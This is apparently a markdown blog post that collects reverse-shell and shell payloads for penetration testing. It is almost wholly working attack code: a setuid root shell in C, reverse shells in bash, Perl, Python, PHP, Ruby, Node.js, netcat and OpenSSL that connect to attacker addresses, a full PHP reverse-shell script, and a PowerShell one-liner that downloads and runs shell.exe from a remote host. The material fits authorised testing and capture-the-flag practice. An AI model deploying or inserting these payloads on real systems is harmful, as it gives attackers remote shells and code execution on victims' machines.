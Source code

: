 ```yaml
---
layout: post
title: Shell & Reverse Shell
description: >
  There are list of Shell and Reverse Shell Collected from Internet.
---
```


# Shell & Reverse Shell



## Find Out What program are Install

```bash

$ for item in $(echo "nmap nc perl python ruby gcc wget sudo curl php"); do which $item; done

```



## C Shell

> #### vim cShell.c

```bash

int main(){
    setresuid(0,0,0);
    system("/bin/bash");
}

```
> #### for compile `$ gcc cShell.c -o cShell`


## TTY Shell

```bash

$ python -c 'import pty;pty.spawn("/bin/bash")'
# Background shell with `Ctrl+z`

$ echo $TERM && tput lines && tput cols
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <num>

``` 
### Bash

```bash

$ exec 5<>/dev/tcp/10.10.11.11/9001 cat <&5 | while read line;do $line 2>&5 >&5;done

```


```bash
$ bash -i >& /dev/tcp/10.10.10.1/9001 0>&1

```

### Perl

```bash

$ perl -e 'use Socket;$i="10.10.11.14";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&s");open(STDERR,">&s");exec("/bin/sh -i");};'

```


### Python

```bash

$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9003));os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```





### PHP

```bash

$ php -r '$sock=fsockopen("10.10.14.11",9001);exec("/bin/sh -i <&3 >&3 2>&3");'

```

```php

<?php set_time_limit(0);$VERSION="1.0";$ip='10.10.11.11';$port=9001;$chunk_size=1400;$write_a=null;$error_a=null;$shell='uname -a; w; id; /bin/sh -i';$daemon=0;$debug=0;if(function_exists('pcntl_fork')){$pid=pcntl_fork();if($pid==-1){printit("ERROR: Can't fork");exit(1);}if($pid){exit(0);}if(posix_setsid()==-1){printit("Error: Can't setsid()");exit(1);}$daemon=1;}else {printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");}chdir("/");umask(0);$sock=fsockopen($ip,$port,$errno,$errstr,30);if(!$sock){printit("$errstr ($errno)");exit(1);}$descriptorspec=array(0=>array("pipe","r"),1=>array("pipe","w"),2=>array("pipe","w"));$process=proc_open($shell,$descriptorspec,$pipes);if(!is_resource($process)){printit("ERROR: Can't spawn shell");exit(1);}stream_set_blocking($pipes[0],0);stream_set_blocking($pipes[1],0);stream_set_blocking($pipes[2],0);stream_set_blocking($sock,0);printit("Successfully opened reverse shell to $ip:$port");while(1){if(feof($sock)){printit("ERROR: Shell connection terminated");break;}if(feof($pipes[1])){printit("ERROR: Shell process terminated");break;}$read_a=array($sock,$pipes[1],$pipes[2]);$num_changed_sockets=stream_select($read_a,$write_a,$error_a,null);if(in_array($sock,$read_a)){if($debug)printit("SOCK READ");$input=fread($sock,$chunk_size);if($debug)printit("SOCK: $input");fwrite($pipes[0],$input);}if(in_array($pipes[1],$read_a)){if($debug)printit("STDOUT READ");$input=fread($pipes[1],$chunk_size);if($debug)printit("STDOUT: $input");fwrite($sock,$input);}if(in_array($pipes[2],$read_a)){if($debug)printit("STDERR READ");$input=fread($pipes[2],$chunk_size);if($debug)printit("STDERR: $input");fwrite($sock,$input);}}fclose($sock);fclose($pipes[0]);fclose($pipes[1]);fclose($pipes[2]);proc_close($process);function printit($string){if(!$daemon){print"$string\n";}}?>

```



### Ruby
 
```bash

$ ruby -rsocket -e 'f=TCPSocket.open("10.10.11.11",9001).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

```
> ## or

```bash

$ ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.11.11","9001");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';

```


### Nodejs

```javascript

(function(){
    const net = require("net");
    const cp = require("child_process");
    const sh = cp.spawn("/bin/sh",[]);

    const client = new net.Socket();
    client.connect(9001,"10.10.11.11",function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();

``` 

```javascript

 require('child_process').exec('nc -e /bin/sh 10.10.11.11 9001')

```





### Netcat With -e 

```nc

$ nc -e /bin/sh 10.10.10.1 9001

```

### Netcat Without -e 

```nc 

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.11.11 9001 >/tmp/f

```


### OpenSSL

```bash

$ mkdir -p ~/tmp/openssl && cd ~/tmp/openssl && openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes && openssl s_server -key key.pem -cert cert.pem -accept 8000

$ mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -qu -connect 10.10.11.11:8000 > /tmp/s; rm /tmp/s

```





### Binary Execute

- https://github.com/audibleblink/gorsh
- https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell


### Server 

```python

$ python3 -m http.server 

```

### Downloader

```powershell

powershell -command "((new-object System.Net.WebClient).DownloadFile('http://10.10.11.11:8080/shell.exe','%TEMP%\shell.exe'))";"c:\windows\system32\cmd.exe /c %TEMP%\shell.exe"

```

### Not Powershell

- https://github.com/Ben0xA/nps